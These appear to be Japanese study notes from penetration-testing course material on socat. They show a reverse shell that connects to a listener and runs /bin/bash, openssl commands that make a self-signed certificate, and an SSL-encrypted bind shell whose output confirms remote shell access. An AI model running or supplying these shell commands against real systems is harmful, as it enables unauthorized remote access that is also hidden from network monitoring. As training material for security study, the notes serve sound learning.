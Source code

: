 ### reverse shell
```
待ち受け側
C:\Users\offsec> socat -d -d TCP4-LISTEN:443 STDOUT
... socat[4388] N listening on AF=2 0.0.0.0:443

接続側
kali@kali:~$ socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```
### socatの通信暗号化
#### openssl
・req: 新しい証明書署名要求を開始
・-newkey: 新しい秘密鍵を生成 
・rsa:2048：2,048ビットの鍵長でRSA暗号を使用
・-nodes：パスフレーズ保護なしで秘密鍵を保存
・-keyout: 鍵をファイルに保存
・-x509：証明書要求の代わりに自己署名証明書を出力
・-days：有効期間を日単位で設定
・-out: 証明書をファイルに保存

opensslを用いて鍵と証明書の生成。  
生成したものを.pemに変換してsocatで読み込めるようにする。  
```
kali@kali:~$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 36
2 -out bind_shell.crt
nGenerating a 2048 bit RSA private key
.....................+++
................................+++
writing new private key to 'bind_shell.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:Georgia
Locality Name (eg, city) []:Atlanta
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Offsec
Organizational Unit Name (eg, section) []:Try Harder Department
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
kali@kali:~$ cat bind_shell.key bind_shell.crt > bind_shell.pem
```

```
受信側
kali@kali:~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin
/bash

送信側
C:\Users\offsec> socat - OPENSSL:10.11.0.4:443,verify=0
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)
whoami
kali
```
